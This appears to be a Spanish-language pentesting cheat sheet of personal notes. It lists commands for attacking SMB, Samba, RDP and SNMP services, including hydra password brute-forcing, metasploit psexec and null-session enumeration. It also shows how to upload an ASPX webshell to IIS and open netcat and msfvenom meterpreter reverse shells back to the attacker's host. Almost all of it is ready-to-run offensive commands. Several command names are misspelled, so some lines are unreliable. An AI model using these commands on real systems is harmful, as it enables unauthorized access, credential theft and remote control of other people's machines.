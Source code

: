 ## SMB (445)

### smbclient

``` bash
smbclient -L IP -N # Null session

hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://IP

smbclient -L //IP -U 'mario' # Ver directorios

smbclient -U 'mario' //IP/Users # Acceder a los recursos
```

### smbmap

``` bash
smbmap -H IP

smbmap -H IP -u 'mario' -p '123123' # Ver permisos de directorio

smbmap -u 'ken' -p 'kenken' -H IP -r ken
```

### metasploit

``` bash
msf6 > use auxiliary/scanner/smb/smb_login

set RHOSTS IP
set VERBOSE false
set SMBUser mario
set PASS_FILE /usr/share/wordlists/rockyou.txt

msf6 > use exploit/windows/smb/psexec
set RHOSTS IP
set SMBUser mario
set SMBPass 123123
```

## SAMBA (445)

### rpcclient

```bash
rpcclient -U "" -N IP
rpcclient $> srvinfo
rpcclient $> querythispinfo
rpcclient $> enumdomusers
```

## RDP (3389)

### xfreerdp

```bash
xfreerdp /u:Administrator /p:letmein123! /v:IP:3389
```

## SNMP (161)

### onesixtyone (conseguir clave de comunidad)

```bash
onesixtyone -c /usr/share/wordlists/rockyou.txt
```

### snmpwalk

```bash
snpwalk -v 2c -c clave IP
```

## Webshell ASPX en IIS (Internet Information Services)

```bash
find / -name cmdasp.aspx 2>/dev/null
/usr/share/webshells/aspx/cmdsp.aspx

ftp> put cmdasp.aspx
```

Una vez hayamos subido la shell

```bash
find / -name nc.exe 2>/dev/null
/usr/share/windows/resources/binaries/nc.exe

impacket-smbserver recurso $(pwd) -smb2support

sudo nc -nlvp 443
```

Y en la shell:

```bash
\\nuestraIP\recurso\nc.exe -e cmd.exe nuestraIP 443
```

### opción B

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=nuestraIP LPORT=4444 -f aspx -o shell.aspx

ftp> put shell.aspx

msfconsole
use multi/handler
set LHOST nuestraIP
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

## Obtener hotfixes en Windows

```powershell
(Get-HotFix).Count

wmic qfe list brief /format:table
```